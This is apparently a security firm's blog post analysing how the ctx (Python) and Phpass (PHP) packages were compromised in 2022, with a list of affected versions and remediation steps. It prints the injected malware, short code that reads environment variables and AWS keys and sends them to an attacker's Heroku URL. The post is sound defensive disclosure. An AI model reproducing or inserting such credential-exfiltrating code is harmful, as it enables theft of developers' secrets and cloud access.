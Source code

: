 ```yaml
---
title: "How two Python and PHP dependencies, ctx and Phpass, became malware that stole secrets and credentials"
description: A security expert's analysis of the malicious code added to ctx and Phpass, Python and PHP dependencies, that turned them into malware by sending environment variables and credentials to a third party attacker.
slug: ctx-and-phpass-package-malware
date: 2022-05-25T01:37
keywords: [dependencies, ctx, phpass]
tags: [malware, dependencies]
authors: [chris, free, gabe]
---
```


<!--
  ~ Copyright by LunaSec (owned by Refinery Labs, Inc)
  ~
  ~ Licensed under the Creative Commons Attribution-ShareAlike 4.0 International
  ~ (the "License"); you may not use this file except in compliance with the
  ~ License. You may obtain a copy of the License at
  ~
  ~ https://creativecommons.org/licenses/by-sa/4.0/legalcode
  ~
  ~ See the License for the specific language governing permissions and
  ~ limitations under the License.
  ~
-->

## Popular packages, `ctx` and `Phpass`, compromised

In this post we'll be reviewing the malicious code that was introduced to both `ctx` and `phpass`.

<a href="https://twitter.com/s0md3v/status/1529005758540808192" target="_blank" rel="noopener">
  <img src="https://www.lunasec.io/docs/img/ctx-Twitter-Screenshot.png" alt="Screenshot of ctx Twitter tweet" />
</a>

<!--truncate-->

_Tweet from @s0md3v notifying the developer community about `ctx`._

## Malicious Code in `ctx`

After 7 years, the Python package `ctx` on PyPi received a version update.
A malicious version of `ctx` was published under `0.2.2` as an update to the previous `0.1.2`.

The following code was added to the package:

```python
def __init__(self):
    self.sendRequest()

    # code that performs dict access
    # please DO NOT RUN THIS CODE !

     def sendRequest(self):
        string = ""
        for _, value in environ.items():
            string += value+" "

        message_bytes = string.encode('ascii')
        base64_bytes = base64.b64encode(message_bytes)
        base64_message = base64_bytes.decode('ascii')

        response = requests.get("https://anti-theft-web.herokuapp.com/hacked/"+base64_message)
```

### Malware Code Overview

This code does the following:

1. Reads all Environment variables (potentially containing sensitive values like credentials for AWS or the database),
2. Converts the values into `base64` encoding to allow for transport via HTTP,
3. Finally, it sends an HTTP request with the leaked environment variables to the attacker's Heroku App.

## `Phpass` contains similar malware

The PHP library on Composer `Phpass` was also updated with identical malicious code around the same time.

<a href="https://twitter.com/s0md3v/status/1529010306466615296" target="_blank" rel="noopener">
  <img src="https://www.lunasec.io/docs/img/Phpass-Twitter-Screenshot.png" alt="Screenshot of Phpass Twitter tweet" />
</a>

_Tweet from @s0md3v notifying the developer community about `Phpass`._

This malicious code that was added to this package was:

```php
$access = getenv('AWS_ACCESS_KEY');
$secret = getenv('AWS_SECRET_KEY');
$xml = file_get_contents('http://anti-theft-web.herokuapp.com/hacked/$access/$secret');
```
*From the [Sonatype blog post](https://blog.sonatype.com/pypi-package-ctx-compromised-are-you-at-risk)*

### Most Phpass Users Unaffected

Luckily, the [PHP package](https://packagist.org/packages/hautelook/phpass) derived from the affected repository 
[hautelook/phpass](https://github.com/hautelook/phpass) 
had not received many downloads in the past months. Instead, the [package](https://packagist.org/packages/bordoni/phpass)
for the forked repository [bordoni/phpass](https://github.com/bordoni/phpass) was started to primarily be used by developers well
before the malicious code was published.

The below graphs show the download count of the packages from Packagist (the PHP Package registry powering Composer):

![monthly downloads of the hautelook/phpass library](/img/packagist-hautelook-phpass-downloads.png)

*Monthly downloads of `hautelook/phpass` (malicious version)*

![monthly downloads of the bordoni/phpass library](/img/packagist-bordoni-phpass-downloads.png)

*Monthly downloads of `bordoni/phpass` (safe fork)*

## Remediation Steps

The libraries have all been taken down now. The simplest way to verify that you're safe is to update to the latest
package versions.

If updating isn't an option, you may also verify that you're not using any of the following package versions.

### Affected Package Versions
- `ctx` versions `0.2.2` and `0.2.6` (Python)
- `Phpass` versions are unknown (PHP)
  - It's unlikely more than a few dozen users are affected due to the [small download count](https://web.archive.org/web/20220519155745/https://packagist.org/packages/hautelook/phpass/stats)
  - If you have more information, please tell us on [Slack](https://join.slack.com/t/lunaseccommunity/shared_invite/zt-19wb6qg8w-OC1ktWO2LkG8lL3fpLD3AA) or [GitHub](https://github.com/lunasec-io/lunasec).

## External References

- Archived version of `ctx` [package versions on Pypi](https://archive.ph/xTUEN).

- [Initial post](https://old.reddit.com/r/Python/comments/uumqmm/ctx_new_version_released_after_7_years_750k) observing the package had been updated.

- [Reddit post](https://old.reddit.com/r/Python/comments/uwhzkj/i_think_the_ctx_package_on_pypi_has_been_hacked/) with details about the malicious changes to ctx.

- [Sonatype blog post](https://blog.sonatype.com/pypi-package-ctx-compromised-are-you-at-risk) with details about timeline.

- [Post by SANS ISC InfoSec Forums](https://isc.sans.edu/forums/diary/ctx+Python+Library+Updated+with+Extra+Features/28678/)

## For a limited time, claim an expert security review

Though perhaps unconventional, our team of Security Engineers has been working with startups to audit their dependencies 
and help them manage their security roadmap.

Why? It's simple: By working with us, we also learn about the common problems that companies face while shipping 
software. Helping you enables us to make our Open Source software better.

To get started, please email us at [deps@lunasec.io](mailto:deps@lunasec.io) or 
[schedule a 15-minute call](https://cal.com/lunasec/15min) with one of our engineers.

### Who are we?

If you've heard of [Log4Shell](https://www.lunasec.io/docs/blog/log4j-zero-day/) or 
[Spring4Shell](https://www.lunasec.io/docs/blog/spring-rce-vulnerabilities), then you're familiar with our work already!
We're the security experts that gave those vulnerabilities their name by providing clear, concise advice and 
[building tools to resolve them](https://github.com/lunasec-io/lunasec).

Since then, we've interviewed hundreds of companies to help us build 
[LunaTrace](https://github.com/marketplace/lunatrace-by-lunasec).

What is LunaTrace? It's our Open Source security platform that automatically discovers vulnerabilities in your 
dependencies and gives you expert security guides with remediation steps and automated patches.

Whether you're a developer or a security professional, we'd love to hear from you! Drop us a line by 
[joining our Slack](https://join.slack.com/t/lunaseccommunity/shared_invite/zt-19wb6qg8w-OC1ktWO2LkG8lL3fpLD3AA) or 
trying out LunaTrace on your [GitHub repo for free](https://github.com/marketplace/lunatrace-by-lunasec).


## Updates

1. Original post on 2022-05-24 @ 5pm PDT
2. Added more details about the packages on 2022-05-25 @ 1:30am UTC
